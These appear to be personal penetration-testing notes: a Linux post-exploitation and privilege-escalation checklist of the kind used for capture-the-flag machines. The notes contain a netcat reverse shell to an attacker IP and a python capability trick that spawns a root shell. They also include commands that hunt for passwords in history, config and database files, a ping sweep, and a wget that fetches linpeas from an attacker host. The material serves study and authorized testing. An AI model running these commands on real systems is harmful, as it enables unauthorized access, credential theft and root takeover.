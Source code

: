 
short:
id
sudo -l
ls -la /opt
cat /etc/crontab


Start
	`pwd`
	`ls -la`
	`ls -la *` for files in `~`
	check history files `cat ~/.*history`

Stabilize shell and make it interactive
	`python3 -c 'import pty;pty.spawn("/bin/bash")'`
	or `python -c 'import pty;pty.spawn("/bin/bash")'` if ooold python
	Ctrl+z
	`stty -a` (on my kali: `speed 38400 baud; rows 33; columns 126; line = 0;`)
	`stty raw -echo; fg` (ctrl+c and other special chars sent + turning of echo)
	`export TERM=xterm`
	`stty rows <number> cols <number>` (on my kali: `stty rows 33 cols 126`)

`mkfifo /tmp/h; cat /tmp/h | /bin/sh -i 2>&1 | nc 10.21.31.111 443 > /tmp/h`

User info
	`id` privilege level and group memberships
	`whoami`

Machine
	`hostname`
	`cat /etc/os-release`
	`uname -a`
	`cat /proc/version` also gcc info
	`cat /etc/issue`

Other
	`env` show environment variables
	`history`

find users on machine
	`cat /etc/passwd` users and might find info on services through their accounts
	~/ `ls -la ..`
	check permissions on other users directories
	find passwords in history
	`find /home -name .*_history -exec grep -A 1 '^passwd' {} \;`

File system - interesting files?
	`ls -la /opt`
	`ls -la /var/backup`
	check logs in `/var/log`
	are there email? how to find? `/var/mail` `/var/spool/mail`
	`ls -la /tmp`
	`ls -la /var/tmp`
	is `/etc/shadow` readable/writeable
	is `/etc/passwd` writeable
	find anything named backup?
	write permissions in the directories in the path - might be able to replace executable

Check config files
	`cat /etc/exports` nfs config file

What's scheduled
	`crontab -l` lists jobs for active user
	`cat /etc/crontab` list system wide jobs
	[[cron - crontab]]
	...

Permission info
	`sudo -l` list all commands your user can run using `sudo`
	Find SUID binaries
		`find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null`
	Find SGID binaries
		`find / -perm -g=s -type f -exec ls -la {} \; 2>/dev/null`
	Find SUID and SGID binaries
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} \; 2> /dev/null`
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} + 2> /dev/null|cat`
		compare to [gtfobins](https://gtfobins.github.io/)
	Find sticky-bit directories, missing on tmp? (restricted deletion flag - other users can't overwrite/delete files in the dir)
		`find / -perm -1000 -type d 2>/dev/null`

Our permissions
	Find writable files
		`find /etc -writable -ls 2>/dev/null`
		`find / -writable -type f 2>/dev/null | grep -v "/proc/"`
	Find files with permissions for your group (if user has extra groups)
		`find / -type f -group `mygroup` -exec ls -l {} + 2>/dev/null`
	Find write exec perm directories
		`find / -perm -o w -type d 2>/dev/null`
	Find write exec perm directories
		`find / -perm -o x -type d 2>/dev/null`
	Find files with capability "permissions"
		`getcap -r / 2>/dev/null`
	Find files with root owner, our group and group write permissions
		`find / -type f -user root -group <your-group> -perm -g=w -exec ls -l {} + 2> /dev/null|cat`

if setcap has suid permissions
	`setcap cap_setuid+ep ./python3`
	`getcap -r / 2>/dev/null`
	`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

check for ssh keys
	`/home/<user>/.ssh`
	Can we add a user
		[Dirty C0w](https://dirtycow.ninja/) 
		writeable /etc/shadow or /etc/passwd

what processes are running
	`ps aux|cat` show processes for all users (a), display user that launched the process (u), show processes not attached to a terminal (x)
	`ps auxf|cat` can see all the things!!! thanks stderr_dk
	`ps axjf` tree style (f)
	`ps axf`
	are we in a docker container? tiny number of processes
	[[pspy]]

Open ports
	`ss -tulpn`
	`netstat -antplue`
	`netstat -ano`
	`lsof -i -P`

scan for other machines
	`for ip in {1..254} ;do (ping -c 1 192.168.0.$ip | grep "bytes from") done`

finding files, like flags:
	`find / -type f -name flag2.txt 2> /dev/null`

if it's a web server with php:
	cat /var/www/html/configuration.php or grep for password
Apache Tomcat creds
	`find / -name tomcat-users.xml -exec cat {} \; 2> /dev/null`

Check for mysql
	mysql creds can be found in `/var/lib/mysql/mysql/user.MYD`
	`mysql -u root`
		`show databases;`
		`use [DATABASE];`
		`show tables;`
		`select * from [TABLE];`


---

search in logfiles and binaries for usernames and passwords
- `strings filename | grep -i -E "user|name|pass" -C5`
- `grep -i -E "user|name|pass" -C5 file1 file2` for text files and logs..

Recursively strings + grep
- `find [dirname] -type f -exec sh -c 'strings "$1" | grep -i -E "user|name|pass" -C5' sh {} \;`

Recursively strings +/ grep only using strings for binaries
- `find [dirname] -type f -exec sh -c 'file "{}" | grep -q "text" && grep -i -E "user|name|pass" -C5 "{}" || strings "{}" | grep -i -E "user|name|pass" -C5' \;`

if we found a git repo or web dir on the machine
 in dir, do:
 `grep -ri user`
 `grep -ri pass`
 one level?


---

network
	`ifconfig` what interfaces exist..
	`ip route` check this with route table


---

Use tools
	[[enum4linux|enum4linux]]
	[[linpeas]] [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
	`wget 10.18.21.236:8000/enum/linpeas.sh`
	[LinEnum](https://github.com/rebootuser/LinEnum)
	[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
	[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
	[Linux Priv Checker](https://github.com/linted/linuxprivchecker)


